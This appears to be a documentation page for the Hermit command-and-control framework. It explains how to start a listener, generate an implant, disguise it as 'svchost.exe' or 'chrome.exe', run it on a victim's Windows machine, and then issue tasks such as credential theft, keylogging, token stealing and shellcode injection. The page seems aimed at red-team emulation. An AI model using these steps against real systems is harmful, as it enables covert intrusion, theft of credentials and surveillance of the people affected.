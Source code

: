 # Simple Implant Beacon

This page introduces the basic usage of execute the implant beacon on Windows victim machine.  

Assume that you've already installed Hermit.  
If not yet, see [the Installation page](../installation.md) and try [Getting Started](../getting-started.md).

## 1. Start C2 Server

Go to the Hermit project directory then run `./hermit` command.

![hermit server start](../assets/images/terminal/hermit_server_start.png)

In the server console, we can show usage with `help` or `help <command>`.

## 2. Start HTTPS Listener

```sh title="Hermit C2 Server Console"
Hermit > listener new
```

This command sets a new listener URL and run it.  
The IP is set from our local interface by default. The port number is randomly generated.  
If we want to specify our own IP/port, add `--url` flag:

```sh title="Hermit C2 Server Console"
Hermit > listener new --url https://127.0.0.1:1234
```

To list all listeners available, run `listeners` command.

## 3. Generate Implant Payload

`payload gen` command generates a new payload such as **implant**, **loader**, **shellcode**.  
The Wizard will start, so follow the instructions to complete the settings.

![payload gen](../assets/images/terminal/payload_gen_implant_beacon_win_amd64_exe.png)

It will take some time for generation (about 3-10 minutes. It depends on your machine spec).
After that, the implant is saved under `$HOME/.hermit/server/listeners/https-<name>/payloads/` folder.  

### Transfer the Implant

Transfer the implant (`.exe`) to the Windows target computer.  
At that time, it's recommended to rename the filename because the word "implant" in the file name is too dignified.  
For example, rename it with "chrome.exe", "svchost.exe", etc.

## 4. Execute Implant

On the victim machine, execute the implant as below:  

```ps title="Windows Victim Machine"
# Replace the filename with our own.
.\implant.exe
```

## 5. Switch to Agent Mode

After a few seconds (10~30 seconds by default), the agent checked in and listed on the C2 server.  
We can check the agent listed with the `agents` command.

![agent list](../assets/images/terminal/agent_list.png)

Now switch to Agent Mode by specifying the agent ID (e.g. `1`):

![agent use](../assets/images/terminal/agent_use.png)

## 6. Send Task & Get Result

In Agent Mode, we can send tasks and get results.  
To see what tasks are available, run `?`, `help` or `help <command>` command.  
Currently, the following tasks are available:

```txt title="Hermit C2 Server Console [Agent Mode]"
TASK:
  cat             Read contents of a file.
  cd              Change the working directory.
  connect         Change listener URL to connect.
  cp              Copy a file.
  creds steal     Steal credentials from various resources on the target computer
  dll             Load DLL and inject modules into the specified process
  download        Download a file.
  env ls          List environment variables.
  envs            alias for 'env ls'
  execute         Execute system command.
  group ls        List local groups.
  groups          Alias for 'group ls'
  history         Retrieve information from history files of applications
  ip              Print the network interface information on target computer
  jitter          Set jitter time (seconds) between requests from beacon
  keylog          Keylogging N seconds.
  kill            Terminate the current process.
  killdate        Change killdate (UTC) for the implant beacon.
  ls              List files in a directory.
  migrate         Migrate the implant into another process.
  mkdir           Create a new directory.
  mv              Move a file to a destination location.
  net             Get TCP connections.
  procdump        Dump process memory to a specified output file.
  ps kill         Terminate a process.
  ps ls           List processes.
  pwd             Print the current working directory.
  reg subkeys     Enumerate subkeys for the specified open registry key.
  reg values      Enumerate the specified registry values.
  rm              Remove a file.
  rmdir           Remove a directory.
  rportfwd add    Add settings to reverse port forwarding.
  rportfwd ls     List settings for reverse port forwarding.
  rportfwd rm     Stop and remove listener for reverse port forwarding.
  runas           Execute a program as another user.
  screenshot      Take a screenshot on target computer.
  shellcode       Inject shellcode into the specified process
  sleep           Set sleep time (seconds) between requests from beacon
  token revert    Revert back to the original process token.
  token steal     Steal token from the specified process and impersonate process.
  upload          Upload a file to the target computer.
  user ls         List users.
  users           List all local users.
  whoami          Print the current user information.
```

First, let's try sending the `whoami` task to the agent.  
This task retrieves the username on the victim machine.  

![task send](../assets/images/terminal/task_send_whoami.png)

To see the tasks waiting for results, run the `tasks` command.  

After a few seconds, if the task is successful, we can see the task results with the `task result` or `loot show` command:

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > task results
# or
Hermit [agent-abcd] > loot show
```

Please try other tasks as well.

## 7. Stop Implant & Quit Agent Mode

After emulation, stop the implant with the `kill` command:

```sh title="Hermit C2 Server Console [Agent Mode]"
Hermit [agent-abcd] > kill
```

Then run `exit` command to quit the agent mode.

## 8. Delete Agent

If we want to delete the agent, run the following command:

```sh title="Hermit C2 Server Console"
Hermit > agent delete 1
```

`1` is the agent ID that can be seen by `agents` command.

## 9. Stop/Delete Listener

Also, if we want to stop and delete the listener, run the following command:

```sh title="Hermit C2 Server Console"
Hermit > listener stop 1
Hermit > listener delete 1
```

`1` is the listener ID that can be seen by `listeners` command.